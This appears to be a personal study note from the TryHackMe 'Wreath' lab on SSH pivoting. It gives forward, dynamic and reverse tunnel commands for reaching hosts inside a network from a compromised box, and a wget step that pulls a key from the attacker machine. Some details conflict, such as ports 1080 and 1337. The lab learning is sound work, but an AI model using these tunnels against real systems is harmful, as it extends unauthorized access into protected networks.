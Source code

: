 ### TRY THIS FIRST!
KALI: 
```bash - kali
ssh-keygen -t rsa -N ‘’ -f ~/.ssh/key
```

TARGET:
```bash - target
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@$KALI
```

With the dynamic reverse tunnel established, edit the /etc/proxychains4.conf to use the port 1080.

---

https://tryhackme.com/room/wreath

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

-   Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

==Run on kali==
```bash - kali
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

-   We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.  
      
-   Proxies are made using the `-D` switch, for example: `-D 1080`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```bash - kali
ssh -D 127.0.0.1:1080 user@172.16.0.5 -fN
```

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

**Reverse Connections**  

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

```bash - kali
ssh-keygen
```

Give it a name of "./reverse"

```bash - kali
./reverse
```

![[Pasted image 20220115184520.png]]

```bash - kali
ls -l reverse*
```

![[Pasted image 20220116104411.png]]

```bash - kali
touch ~/.ssh/authorized_keys
```

```bash - kali
mousepad ~/.ssh/authorized_keys
```

```bash - kali
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Paste in the contents of reverse.pub:

The final entry in the `authorized_keys` file should look something like this:

![[Pasted image 20220115184759.png]]

Check that ssh is running:

```bash - kali
sudo systemctl status ssh
```

if not, start it:

```bash - kali
sudo systemctl start ssh
```

Transfer private key to target box (Vic1).

[[Python#Server]]

```bash - target
wget http://$KALI/reverse
```


| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

```bash - Vic1
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash - Vic1
ssh -R LOCAL_PORT:VICTIM2:VICTIM2_PORT kali@$KALI -i KEYFILE -fN
```

==Run the following on the Vic1 box (172.16.0.5)==

```bash - Vic1
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

_**Note:** Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._

```bash - kali
ssh -N -R $TARGET:5555:127.0.0.1:5555 -p 2222 student@$TARGET
```